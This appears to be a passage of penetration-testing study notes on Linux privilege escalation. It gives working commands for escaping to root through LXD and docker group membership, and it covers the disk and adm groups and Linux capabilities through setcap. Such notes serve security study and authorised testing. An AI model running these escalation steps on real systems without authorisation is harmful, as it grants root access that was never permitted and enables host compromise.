 ````

- LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at /mnt/root. Let's confirm group membership and use these rights to escalate to root.

  ```bash
  # initilisation
  lxd init

  # Import the local image.
  lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

  ```

- Start a privileged container with the security.privileged set to true to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

  ```bash
  lxc init alpine r00t -c security.privileged=true

  # Mount the host file system.
  lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

  # spawn
  lxc start r00t
  lxc exec r00t /bin/sh
  ```

- Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password.

  ```bash
  docker run -v /root:/mnt -it ubuntu
  ```

- Users within the disk group have full access to any devices contained within <Path>

- Members of the adm group are able to read all logs stored in /var/log. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

###### Capabilities

- Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted
- One common vulnerability is using capabilities to grant privileges to processes that are not adequately sandboxed or isolated from other processes, allowing us to escalate their privileges and gain access to sensitive information or perform unauthorized actions.
- Another potential vulnerability is the misuse or overuse of capabilities, which can result in processes having more privileges than they need
  - We could use the following command to set the cap_net_bind_service capability for an executable:
  ```bash
  sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
  ```
  - the cap_net_bind_service capability is set for a binary, the binary will be able to bind to network ports, which is a privilege usually restricted.

!["Capabilities img"](../Ressources/IMG/linux-priv-esc-capabilities.png)

!["Capabilities img"](../Ressources/IMG/linux-priv-esc-capabilities-2.png)

````
